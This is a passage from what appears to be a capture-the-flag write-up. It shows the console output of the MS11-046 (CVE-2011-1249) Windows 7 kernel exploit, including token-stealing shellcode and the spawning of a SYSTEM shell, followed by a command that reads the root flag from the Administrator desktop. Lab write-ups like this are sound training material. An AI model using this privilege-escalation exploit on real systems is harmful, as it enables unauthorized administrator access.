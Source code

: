 Note on exit of the shell we see the stout of the exploit: 

```
[*] MS11-046 (CVE-2011-1249) x86 exploit
   [*] by Tomislav Paskalev
[*] Identifying OS
   [+] 32-bit
   [+] Windows 7
[*] Locating required OS components
   [+] ntkrnlpa.exe
      [*] Address:      0x82807000
      [*] Offset:       0x00830000
      [+] HalDispatchTable
         [*] Offset:    0x009593b8
   [+] NtQueryIntervalProfile
      [*] Address:      0x777f5510
   [+] ZwDeviceIoControlFile
      [*] Address:      0x777f4ca0
[*] Setting up exploitation prerequisite
   [*] Initialising Winsock DLL
      [+] Done
      [*] Creating socket
         [+] Done
         [*] Connecting to closed port
            [+] Done
[*] Creating token stealing shellcode
   [*] Shellcode assembled
   [*] Allocating memory
      [+] Address:      0x02070000
      [*] Shellcode copied
[*] Exploiting vulnerability
   [*] Sending AFD socket connect request
      [+] Done
      [*] Elevating privileges to SYSTEM
         [+] Done
         [*] Spawning shell

[*] Exiting SYSTEM shell
```

## Value Extraction 2

At this point I can grab the root flag:

### Getting Root

``` cmd
type c:\Users\Administrator\Desktop\root.txt.txt
{{ page.hide | slice: 0, 20 | downcase }}{{ page.root | slice: 20, 32 }}
```